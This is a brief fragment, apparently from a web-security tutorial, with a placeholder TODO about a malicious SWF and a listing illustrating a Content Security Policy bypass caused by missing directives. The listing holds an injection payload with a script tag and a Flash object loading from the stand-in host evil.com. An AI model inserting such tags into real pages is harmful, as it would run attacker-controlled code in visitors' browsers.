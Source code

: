 TODO: This will contain an example of a malicious SWF that does an alert popup or something like that.

```
<script src="//evil.com"></script>
<object data="//evil.com/evil.swf">
<param name="allowscriptaccess" value="always">
</object>
Listing 3: CSP bypass due to missing directives
```
